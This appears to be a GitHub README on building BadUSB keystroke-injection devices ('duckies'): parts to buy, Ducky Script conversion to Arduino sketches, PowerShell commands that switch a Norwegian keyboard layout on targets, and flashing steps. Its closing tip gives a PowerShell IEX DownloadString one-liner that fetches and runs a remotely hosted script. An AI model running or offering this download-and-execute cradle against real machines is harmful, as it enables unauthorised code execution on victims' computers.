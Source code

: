 # Duckies

## What to buy
**NOTE** The Arduino Beetle doesn't use ducky script, but Arduino Sketches. Luckily, there's an online converter, so you only need to focus on the Ducky Script linked below.
* [BadUSB Beetle - Arduino Leonardo R3 DC 5v 16MHz](https://www.aliexpress.com/item/32954241500.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)
* [Cactus WHID (WiFi Duckie)](https://www.aliexpress.com/item/32318391529.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)


## The scripting language
[Ducky Script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)
### Convert from Ducky Script to Arduino Sketch
[Converter](http://roothaxor.gitlab.io/ducky2arduino_stable/)

## Norwegian specific
The Ducky types using US_ENGLISH keyboard layout, meaning the payloads won't work on targets using the Norwegian keyboard layouts. The work-around is to change the layout to US_ENGLISH at the beginning of the script, then whatever payload, then optionally change it back.

The script I'm using:
From NOR to ENG - 
`PowerShell Set/WinUserLanguageList /LanguageList en/US, nb /Force`

And from ENG to NOR - 
`PowerShell Set-WinUserLanguageList -LanguageList nb, en-US -Force`

Alternatively, you can map out the US_ENGLISH keystrokes to the corresponding NORWEGIAN-layout.

## To get the script on to your duck
You need to download and install (duh) the [Arduino IDE](https://www.arduino.cc/download_handler.php)

1. Write / Paste converted code
2. Verify the code
3. Compile ("Push" to Arduino device) 

**NB!!!** the script will execute after compile is done

![](https://github.com/datasnoken/duckies/blob/master/arduinoIDE.PNG)



## Tips
Find a way to do it in Powershell, and run the script from the web as so:

`IEX ((New-Object System.Net.Webclient).DownloadString(\"YOUR_SCRIPT_HOSTED_ON_SOME_SITE_AS_RAW\")); exit`


